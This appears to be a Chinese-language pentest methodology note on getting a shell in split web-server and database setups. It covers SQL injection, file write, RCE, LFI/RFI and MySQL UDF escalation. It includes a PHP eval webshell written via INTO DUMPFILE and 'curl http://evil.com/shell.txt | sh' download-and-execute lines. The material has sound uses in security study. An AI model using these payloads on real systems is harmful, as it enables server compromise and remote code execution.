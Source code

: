 ### 站库分离怎么拿 Shell

**1. SQL 注入结合文件上传或文件写入漏洞**

即使无法直接写入 `webshell`，SQL 注入仍然可以用于读取或修改数据库中的数据。如果应用程序存在**文件上传漏洞**，攻击者可以利用 SQL 注入漏洞修改数据库中的某些配置，例如文件上传路径、文件后缀白名单等

**渗透思路：**

- 利用SQL注入读取网站的配置文件，获取文件上传路径
- 利用SQL注入修改数据库中的上传路径或白名单，使其允许上传恶意文件类型（如 `.php`）
- 结合文件上传漏洞，上传精心构造的 `webshell`

**2. 利用数据库的写权限进行命令执行**

在某些非严格配置的环境中，数据库用户可能拥有写入文件系统的权限。攻击者可以尝试通过数据库的 `LOAD_FILE()`、`SELECT ... INTO DUMPFILE` 等函数，将恶意代码写入到 Web 服务器的可写目录中

**渗透思路：**

- **读取配置文件**: 利用 SQL 注入读取 Web 服务器上的 `phpinfo` 或网站配置文件，寻找可写的目录路径
- **写入`webshell`**: 尝试使用`SELECT '<?php @eval($_POST[cmd]);?>' INTO DUMPFILE '/var/www/html/upload/shell.php'` 将 `webshell` 代码写入到Web服务器的 `upload` 目录
- **注意**: 这种方法需要数据库用户具有 `file_priv` 权限，并且数据库的`secure_file_priv`参数没有限制。在站库分离架构下，这种配置是**不推荐**的，但仍有可能存在

**3. 利用 Web 服务器自身的漏洞**

这是最直接有效的方法。在站库分离架构中，数据库服务器通常难以直接入侵，但 Web 服务器本身可能存在**远程命令执行（RCE）**或**文件包含（LFI/RFI）**等高危漏洞

**渗透思路：**

- **远程命令执行（RCE）**: 如果 Web 服务器存在 RCE 漏洞，攻击者可以直接执行系统命令，例如`curl http://evil.com/shell.txt | sh`，下载并执行恶意脚本，从而获取反弹`shell`或写入`webshell`
- **文件包含（LFI/RFI）**: 利用 LFI/RFI 漏洞，可以读取敏感文件或包含远程服务器上的恶意文件。例如，攻击者可以利用 `file_get_contents('http://evil.com/shell.txt')` 将远程 `webshell` 文件包含到 Web 服务器，从而执行恶意代码

**4. 通过数据库的 UDF 函数提权**

如果攻击者在数据库上拥有足够高的权限（例如`root`），并且数据库服务器允许动态加载库文件，他们可以上传自定义的**UDF（用户自定义函数）**库文件，并在数据库服务器上执行系统命令

**渗透思路：**

- **SQL注入提权**: 利用 SQL 注入获取数据库 `root` 权限
- **上传UDF文件**: 通过 `load_file()` 或 `into dumpfile` 等方法，将恶意 UDF 库文件（例如`lib_mysqludf_sys.so`）上传到数据库服务器的插件目录
- **创建自定义函数**: 在数据库中创建新的函数，例如 `sys_eval()`，该函数能够执行系统命令
- **执行命令**: 调用 `sys_eval()` 函数，执行系统命令，例如 `select sys_eval('curl http://evil.com/shell.txt | sh')`
- **注意**: 这种方法主要用于在数据库服务器上获取 `shell`，而不是在 Web 服务器上。但如果数据库服务器配置不当，可能通过 UDF 执行的命令来反向攻击 Web 服务器